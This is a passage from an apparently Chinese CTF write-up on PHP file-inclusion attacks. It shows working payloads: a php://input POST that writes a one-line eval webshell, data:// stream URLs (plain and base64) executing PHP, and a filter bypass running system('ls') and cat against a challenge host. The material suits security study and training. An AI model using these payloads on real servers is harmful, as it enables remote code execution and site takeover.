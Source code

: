 ![preview](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041804813.jpeg)

若有写入权限，写入一句话木马

```
http://127.0.0.1/include.php?file=php://input
[POST DATA部分]
<?php fputs(fopen('1juhua.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>
```

![preview](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041804431.jpeg)

### 2.`PHP>=5.2.0`可以使用`data://`数据流封装器，以传递相应格式的数据，用来执行PHP代码

示例：

#### 1.data://text/plain,

```
http://127.0.0.1/include.php?file=data://text/plain,<?php%20phpinfo();?>
```

![preview](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041804460.jpeg)

#### 2.data://text/plain;base64,

```
http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```

![preview](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041804792.jpeg)

回到本题

![image-20210304154949956](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041804666.png)

可以看到对php://做了过滤，将“php://”替换成了""，所以采用data://text/plain对我们要执行的命令进行封装，并提供给page变量，命令被包含在include($page);的地方并被执行。

先执行system("ls");,看看当前目录下有啥文件http://111.200.241.244:35140/?page=data://text/plain,%3C?php%20system(%22ls%22);?%3E

![image-20210304155722010](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041804217.png)

然后system("cat fl4gisisish3r3.php");

啥也没显示，flag在哪里？

![image-20210304155843876](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041804329.png)

在这里

![image-20210304155905379](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041804883.png)

据说和阿帕奇服务器的安全机制有关，这里不再赘述。
